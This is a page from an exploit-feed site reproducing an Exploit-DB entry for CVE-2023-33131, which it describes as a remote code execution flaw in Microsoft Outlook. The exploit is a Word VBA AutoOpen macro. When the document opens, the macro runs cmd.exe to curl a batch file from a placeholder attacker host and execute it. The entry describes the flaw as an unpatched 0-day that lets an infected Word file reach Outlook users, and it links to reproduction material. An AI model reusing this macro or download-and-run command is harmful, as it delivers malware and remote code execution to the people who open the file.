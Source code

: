 ```yaml
---
title: Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit - Remote Code Execution exploit
url: https://sploitus.com/exploit?id=EDB-ID:51574&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-08
fetch_date: 2025-10-04T11:51:46.325762
---
```


# Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit - Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit - Remote Code Execution CVE-2023-33131

2023-07-07 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51574
## Title: Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit - Remote Code Execution
## Author: nu11secur1ty
## Date: 07.07.2023
## Vendor: https://www.microsoft.com/
## Software: https://outlook.live.com/owa/
## Reference: https://www.crowdstrike.com/cybersecurity-101/remote-code-execution-rce/
## CVE-2023-33131

## Description:
In this vulnerability, the Microsoft Outlook app allows an attacker to
send an infected Word file with malicious content
to everyone who using the Outlook app, no matter web or local.
Microsoft still doesn't have a patch against this 0-day vulnerability today.

## Staus: HIGH Vulnerability

[+]Exploit:

- The malicious Word file:

```js
Sub AutoOpen()
  Call Shell("cmd.exe /S /c" & "curl -s
https://attacker/namaikativputkata/sichko/nikoganqqsaopraite.bat >
nikoganqqsaopraite.bat && .\nikoganqqsaopraite.bat", vbNormalFocus)
End Sub

```

## Reproduce:
[href](https://github.com/nu11secur1ty/Windows11Exploits/tree/main/2023/CVE-2023-33131)

## Proof and Exploit
[href](https://www.nu11secur1ty.com/2023/07/cve-2023-33131-microsoft-outlook.html)

## Time spend:
00:30:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
